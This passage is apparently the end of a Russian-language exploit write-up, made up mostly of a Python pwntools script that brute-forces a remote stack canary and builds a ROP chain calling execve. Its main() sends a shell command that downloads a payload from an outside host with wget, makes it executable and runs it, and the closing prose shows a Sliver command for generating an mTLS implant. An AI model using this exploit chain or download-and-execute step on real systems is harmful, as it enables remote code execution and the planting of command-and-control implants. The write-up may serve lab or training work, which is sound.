                io.close()
        
        print(f'Bruted {byte_num + 1} byte: {canary}')
    
    return canary

def pad(bytes, mul):
    remainder = len(bytes) % mul

    if not remainder:
        return bytes

    return bytes + b'\x00' * (mul - remainder)

def pad_argv(argv):
    res = []
    argv = [arg.encode() for arg in argv]

    for arg in argv:
        if arg[-1] != b'\x00':
            arg += b'\x00'
        
        arg = pad(arg, 8)
        res.append(arg)
    return res

def write_to_addr(addr, value):
    payload = b''
    payload += p64(POP_RSI)
    payload += value
    
    payload += p64(POP_RDI)
    payload += p64(addr)
    
    payload += p64(MOV_RDI_RSI)
    return payload

def write_str(addr, string):
    payload = b''
    for idx in range(0, len(string), 8):
        payload += write_to_addr(addr + idx, string[idx:idx + 8])
    return payload


def rop_chain(ip, port, canary, argv):
    io = remote(ip, port)

    payload = base_payload()
    payload += canary
    payload += b'A' * RET_OFFSET

    # prepare args as null terminated strings
    argv = pad_argv(argv)
    arg_addrs = []
    addr = RW_ADDR
    rdi = addr

    # 1. write arg strings to memory
    for arg in argv:
        payload += write_str(addr, arg)
        arg_addrs.append(addr)
        addr += len(arg)

    rsi = addr

    # 2. create argv in memory
    for arg_idx, arg in enumerate(argv):
        payload += write_to_addr(addr, p64(arg_addrs[arg_idx]))
        addr += 8

    # also add ending 0 of argv
    payload += write_to_addr(addr, p64(0))
    addr += 8

    # 3. create envp in memory
    payload += write_to_addr(addr, b'A=123\x00\x00\x00')
    payload += write_to_addr(addr + 8, p64(addr))
    payload += write_to_addr(addr + 16, p64(0))
    rdx = addr + 8

    # 4. args for execve
    payload += p64(POP_RDI)
    payload += p64(rdi)

    payload += p64(POP_RSI)
    payload += p64(rsi)
    
    payload += p64(POP_RAX)
    payload += p64(rdx)
    
    payload += p64(MOV_RDX_RAX)

    payload += p64(EXECVE)

    io.send(payload)

def main():
    ip = '192.168.205.184'
    port = 80

    canary = canary_brute(ip, port)

    shell_path = "/tmp/shell"
    shell_url = "http://172.24.52.63:12012/LIABLE_KAZOO"

    argv = [
        "/bin/sh",
        "-c",
        f"/usr/bin/wget -O {shell_path} {shell_url}; /bin/chmod 777 {shell_path}; {shell_path}"
    ]

    rop_chain(ip, port, canary, argv)


if __name__ == '__main__':
    main()
```

Итоговый эксплойт позволяет запускать любую команду. 
В данном варианте генерируется нагрузка с помощью **sliver**:
```python
generate --mtls ip:8888 --os linux --arch amd64
```

Дальше она скачивается на таргет и запускается.
Скриншот с запуском эксплойта:


